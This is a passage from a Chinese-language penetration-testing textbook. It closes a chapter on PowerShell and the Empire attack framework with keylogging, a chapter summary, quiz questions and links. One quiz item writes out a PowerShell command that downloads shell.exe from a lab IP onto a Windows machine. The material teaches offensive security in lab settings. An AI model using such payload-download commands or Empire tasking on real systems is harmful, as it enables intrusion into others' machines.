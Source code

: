 图 9.27 – 帝国代理发送的捕获键击

就像我们配置监听器和 stagers 时一样，我们有一些可选设置，也有一些是必需的，Empire 会尽力提前为你配置好。任务代理之前，请仔细审查可用选项。

在现代 Windows 企业环境中，PowerShell 是我们可用的终极“就地作业”工具，而 Empire 框架则能使你在评估中成为一名“忍者”。如果你跟随这些实验，你已经打下了更深入探索的基础，那么赶快打开目标虚拟机，试试新技巧吧。我们将在后期利用 Empire 进行后渗透工作，敬请期待。

# 总结

在本章中，我们从两个角度探索了 PowerShell。首先，我们将 PowerShell 作为一个交互式任务管理命令行工具和脚本语言进行介绍。然后，我们利用 PowerShell Empire 攻击框架中构建的 PowerShell 脚本，展示了攻击 Windows 机器时的潜力。最终，我们学习了如何利用 Windows 机器上的立足点，使用内置功能为攻击的后期阶段做准备。

本章节的介绍是特权提升和持久性的理想过渡，我们将在此基础上将我们的立足点转变为完全的特权入侵，并为长期保持访问权限铺平道路。现在，我们将跳入下一个章节，介绍 Shell 编程，并快速学习如何操作栈。

# 问题

请回答以下问题，测试你对本章内容的掌握情况：

1.  `ls`、`dir` 和 PowerShell 的 _____ 提供相同的功能。

1.  `[Convert]::ToString($number, 2)` 对 `$number` 变量做了什么操作？

1.  在 PowerShell 中，我们使用 ____ 来筛选结果。

1.  以下命令将创建 `c:\shell` 目录并将 `shell.exe` 写入该目录 (正确 | 错误)：

    (New-Object System.Net.WebClient).DownloadFile("http://10.10.0.2/shell.exe", "c:\shell\shell.exe")

1.  在配置 HTTPS 监听器时，可以使用 `cert.sh` 脚本来防止目标浏览器显示证书警告。(正确 | 错误)

# 深入阅读

要了解本章所涉及的主题的更多信息，请查看以下资源：

+   Empire 项目在 GitHub 上: [`github.com/EmpireProject/Empire`](https://github.com/EmpireProject/Empire)

+   Microsoft Virtual Academy: PowerShell 培训课程: [`mva.microsoft.com/training-topics/powershell#!lang=1033`](https://mva.microsoft.com/training-topics/powershell#!lang=1033)

